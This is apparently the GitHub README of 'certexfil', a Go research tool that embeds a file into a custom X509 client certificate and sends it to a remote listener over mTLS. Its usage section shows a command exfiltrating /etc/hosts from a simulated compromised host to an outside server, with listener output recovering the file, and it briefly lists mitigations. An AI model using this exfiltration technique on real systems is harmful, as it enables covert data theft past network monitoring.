 # Exfiltration fun using X509 digital certificates

## Overview

I spend a ton of time on exfiltration topics and mitigation techniques. This is my very first attempt to try to learn Go by having a quick way to convert a payload (reading a file) and building it as part as a custom x509 digital certificate.

If you new to playing with certs, you will find the following interesting links that inspired me (must read first):

* https://medium.com/sitewards/the-magic-of-tls-x509-and-mutual-authentication-explained-b2162dec4401
* https://venilnoronha.io/a-step-by-step-guide-to-mtls-in-go
* https://tools.ietf.org/html/draft-ietf-oauth-mtls-14

Certexfil has two components, a client and a listener:

* The client is used to bootstrap and set a CA to create certificates (and authenticate them later)
* The client is used also to embed a payload (file) into a new client certificate then use mTLS against a listener service
* A listener (remote) service which using a certificate is accepting valid mTLS clients

## Usage

### Create CA and prepare your listener

This is to create server_cert.pem and server_key.pem certificates to be used for mTLS (client and listener will use those:

```
somewhere$ certexfil.client -ca -ecdsa-curve P521
```

Now make sure your have binary certexfil.listener and the new ./CERTS directory on your remote server. Then, run the listener:

```
remoteserver$ ./certexfil.listener
```

### Client or (simulated) compromised host

In this example, lets try to exfiltrate our /etc/hosts file by generating a custom cert and establishing a mTLS connection to our remote listener:

```
host$ certexfil.client  -host x.io.net -payload /etc/hosts
2019/05/10 19:33:13 Reading from file..
2019/05/10 19:33:13 Payload  --> 127.0.0.1	...	(225 bytes)
2019/05/10 19:33:13 PayloadPrepared --> �...		(173 bytes)
2019/05/10 19:33:13 wrote cert
2019/05/10 19:33:13 wrote cert key
```

### Seen on the listener

```
remoteserver$ certexfil.listener 
2019/05/10 23:33:14 received:	H4sIAAAAAAAC/0TNMa7DIAwG4DmcwtKbH4IMqcQNunXoBQgxDaoDCJOmx69o08abP1v/r/uTVFJJ3VFylubEVXxMS91tIVYsy1pRiD+4zgg+EaUtxBtQiMhgC8KEHIodqV0LnC+PAZzNb2h5LIzR0Cbk4f9Xs28pj9bdhUeljFHHS8QqvD9wcZZrLujDs3nfMptbopgm5B37L5a0ViwsXgEAAP//pJPCNuEAAAA=
2019/05/10 23:33:14 PayloadRetrieved -->
127.0.0.1	localhost
127.0.1.1	wintermute

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
<--
```

## Mitigations

* Fresh certificates
* Large payload vs average certificates from same client (a decent firewall should be able to help)

## Todo

* Peer-review from a real Go developper.. I should stick to Python, I know.
* Set a DEBUG option, clean code
* merge client/listener in one
* automatic deployment of generated certs (DNS TXT? :P)
* Actually have crypto in cryptopayload module

## Contact

* @Sourcefrenchy

